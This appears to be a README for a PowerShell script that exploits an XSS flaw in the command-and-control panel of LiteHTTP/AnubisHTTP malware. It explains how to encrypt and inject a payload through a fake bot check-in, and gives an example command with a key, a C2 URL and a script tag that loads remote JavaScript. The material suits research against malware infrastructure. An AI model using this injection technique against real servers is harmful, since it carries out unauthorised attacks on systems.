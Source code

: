 # LiteHTTP/AnubisHTTP XSS Exploit Script

## Summary

This script demonstrates an XSS vulnerability in LiteHTTP/AnubisHTTP malware by injecting a customizable payload into the `ip (installation_path)` parameter. The data is encrypted and sent to the malware's command and control (C2) server via a POST request.

When the bot controller views the infected machine's details on their dashboard, the XSS payload is executed, potentially compromising the controller's system.

---

## Usage

1. **Customize Parameters**:
   - **`key`**: Encryption key for securing the data.
   - **`url`**: Target C2 server endpoint.
   - **`userAgent`**: User-Agent string to simulate bot communication.
   - **`xssPayload`**: Injected XSS payload (default: `<script>alert("meow")</script>`).

2. **Run the Script**:
   - Execute in a PowerShell environment.
   - Customize parameters as needed to tailor the exploit.

3. **Result**:
   - The script injects and encrypts the XSS payload in the `ip` field.
   - The payload triggers when the controller accesses the infected machine's details.

---

### Example Command

```powershell
.\exploit.ps1 -key "9vFEwkyHsE84Q824NCDWs6dIyvzomQMI" -url "https://helo.badsite/page/gate.php" -userAgent "E9BC3BD76216AFA560BFB5ACAF5731A3" -xssPayload "<script src=http://example.com/myscript.js></script>"
```
